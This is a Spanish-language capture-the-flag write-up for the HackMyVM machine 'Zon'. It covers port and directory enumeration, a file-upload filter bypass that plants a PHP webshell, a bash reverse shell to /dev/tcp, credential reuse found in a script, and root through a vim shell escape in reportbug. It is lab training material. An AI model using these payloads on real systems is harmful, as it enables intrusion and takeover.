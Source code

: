 ```yaml
---
layout: default
title: Zon
parent: HackMyVM
---
```


# Color Utilities
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.74
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Al principio intente hacer fuzzing con el diccionario de **directory-list-2.3-medium.txt** pero no encontre nada, por lo que use uno de archivos, y encontre el endpoint **choose.php** haciendo uso de gobuster

```ruby
gobuster dir -u 192.168.1.74 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 50
```
```ruby
/choose.php           (Status: 200) [Size: 1908]
```

## Explotacion (Arbitrary File Upload)

Viendo el funcionamiento de **choose.php**, vemos que podemos subir archivos .zip con archivos .jpeg dentro, y una vez subidos, se encuentran en el recurso **/uploads**. Si intentamos subir un archivo que no es jpeg, nos muestra algo como esto

    File prueba.zip has been uploaded.Archive contains non-JPEG files. It will be deleted.

En este punto podriamos probar tratar de hacer bypass de algunos filtros o hacer zip symlik pero no sera necesario, despues de una busqueda, encontre una forma de hacer **command injection** a travez del nombre del archivo que se sube a un sitio web, como se explica en este blog: [https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename](https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename)

Vemos que nos dice podemos ejecutar comandos si subimos un archivo con este nombre **a$(whoami)z.jpeg**, que viendo su funcionamiento, se trendria que hacer la expansion de comandos y mostrar el resultado de **whoami**, intente eso pero subiendo una webshell y no me funciono, entonces se me ocurrio que podria ser el nombre del archivo, asi que tenia que ponerlo de forma literal usando comillas simples para que no me escapara los caracteres especiales como el espacio, ademas de poner la extension **.jpeg**  para que lo aceptara. Asi que los pasos fueron:

1. Crear un archivo php que sea una webshell, yo use: **<?php system($_GET['cmd']); ?>**

2. Renombar el archivo:  
    ```ruby
    cp shell.php 'hola.jpeg .php'
    ```
    Se tiene que poner el espacio y entre comillas para que se interprete de forma literal, como se ve en la imagen en el archivo de arriba, y cuando se procese se elimine el espacio en blanco

    ![](/assets/img/zon/1.png)

3. Y por ultimo se comprime: **zip ola.zip 'hola.jpeg .php'**

Una vez que se suba, veremos nuestro archivo php, y habemos podido conseguir RCE

![](/assets/img/zon/3.png)

![](/assets/img/zon/2.png)

Ahora nos podemos enviar una reverse shell usando bash:

```bash
bash -i >& /dev/tcp/<ip>/443 0>&1 <-- Usar URL encode
```

#### ¿Por que funciona?

Si vemos el archivo **upload.php** encargado de la subida del archivo,  vemos la parte en la que hace el filtrado:

```php
$command = "unzip -l " . escapeshellarg($target_file) . " | awk '{print $4}' | grep -v \"\\.jpeg$\" | grep . | tail -n1 | grep \"\\.\"";
        exec($command, $output, $return_var);
```

- Se usa **escapeshellarg** para escapar los caracteres especiales del nombre del archivo
- Despues se usa **awk '{print $4}'** para imprimir la cuarta columna, la cual es el nombre del archivo
- Despues usando grep para filtrar y excluir los que tienen ".jpeg"
- Despues usando otro grep filtra por los archivos que contengan almenos un **.**
- Y para finalizar usa otro grep para filtrar los archivos que tienen un solo punto seguido, es decir, **.** y no **..**, por lo que si el archivo tiene esto **archivo.jpeg ..php**, no lo aceptaria, por tener dos puntos seguidos antes del php

Basicamente funciona por que solo se esta filtrando que contenga la cadena **.jpeg** mas no por toda la extension del archivo, asi que solo es necesario agregar el espacio (que luego sera eliminado) y el **.jpeg** para hacer bypass de ese filtro, seguido de la extension **.php**, quedando el archivo despues de procesar como: **archivo.jpeg.php**

## www-data -> freddie

Si realizamos una busqueda para mostrar los archivos asociados a un grupo, encontraremos uno que se llama **hashdb.sh**

```ruby
find / -type f -group www-data 2> /dev/null
```
```ruby
/var/www/html/hashDB.sh
```

Al ver si contenido, nos podemos dar cuenta que se conecta a mysql y se filtran las credenciales: **admin:-pudgrJbFc6Av#U3**

```bash
#!/bin/bash

# script that checks the database's integrity every minute

dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"

/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}" <-- Credenciales
/usr/bin/sed -i '$d' "${dump}"

hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')

if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
fi
```

Si nos conectamos, y mostramos las bases de datos, en la base de datos  **admin** encontramos la tabla **credentials** y las credenciales del usuario **freddie** que usaremos en ssh

![](/assets/img/zon/4.png)

usr: freddie

pass: LDVK@dYiEa2I1lnjrEeoMif

## Escalada de privilegios

Al mostrar los permisos a nivel de sudoers podremos ver el archivo **/usr/bin/reportbug** que es un script de python

```ruby
file /usr/bin/reportbug
/usr/bin/reportbug: Python script, ASCII text executable
```
La verdad ni lo vi completo, pero jugue con las funciones, y parece ser un script que enviar reportes de bugs en paquetes de debian, pero, la cuestion es que en un punto nos dice que editor queremos usar y nos da las opciones de **vim** y **nano**, si hacemos una busqueda en GFTOBins, nos dice que podemos spawnear una shell usando ese editor: [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

Asi que los pasos a seguir son

1. Ejecutar el script y seleccionar la opcion 4 (expert) y rellenar los datos
2. Volvelo a ejecutar y cuando nos diga *Please enter the name of the package in which you have found a problem*, ingresamos "other"
3. Ponemos el numero **12**
4. Si sale el prompt: *Is the bug you found listed above* , le damos **s**
5. Si sale *Please select a severity level:*, le damos **4**
6. Si sale: *Please select tags: (one at a time)*, le damos enter
7. Despues nos deberia de pedir el editor, seleccionamos **vim** e ingresamos estos comandos de vim

```ruby
set shell=/bin/bash
```

Y despues mandamos a llamar a la variable escribiendo **shell** y ya seremos root

![](/assets/img/zon/5.png)

(Espero que me haya explicado bien en esta parte)

Eso ha sido todo, gracias por leer ❤



